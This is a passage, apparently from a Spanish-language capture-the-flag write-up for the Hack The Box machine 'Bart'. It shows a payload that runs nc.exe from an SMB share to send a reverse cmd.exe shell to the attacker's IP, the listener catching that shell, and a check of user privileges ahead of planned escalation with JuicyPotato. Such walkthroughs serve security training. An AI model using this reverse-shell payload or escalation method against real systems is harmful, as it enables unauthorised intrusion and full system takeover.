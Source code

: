 Ahora le pasaremos el siguiente payload a la web para establecernos la revshell. Tienes que estar ya a la escucha.

```
\\10.10.16.6\compartido\nc.exe -e cmd.exe 10.10.16.6 443
```

### Privesc<a name="id6"></a>

Si miramos nuestro listener...

```bash
❯ rlwrap nc -lvvp 443
listening on [any] 443 ...
connect to [10.10.16.6] from bart.htb [10.10.10.81] 51199
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot\internal-01\log>
```

Tenemos una shell! Ahora nos toca escalar privs. Para ello lo primero que hare sera ver que privilegios tiene este usuario.

```bash
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State  
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled

C:\inetpub\wwwroot\internal-01\log>
```

Disponemos del priv "SeImpersonatePrivilege" esto ya está hecho! Podemos aprovecharnos del JuicyPotato.exe para el privesc.

> JuicyPotato aprovecha una vulnerabilidad en el servicio de autenticación NTLM para engañar al sistema operativo y obtener privilegios elevados. Esta vulnerabilidad se conoce como la "vulnerabilidad de Potato Over Net-NTLM" y permite a un usuario malintencionado utilizar un proceso legítimo con privilegios elevados para ejecutar comandos con permisos de SYSTEM.

Necesitamos descargarnos el binario de netcat y el JuicyPotato. Yo ya los tengo por aquí (puedes usar el servidor SMB para copiartelos)

![](/assets/images/Bart/img7.png)
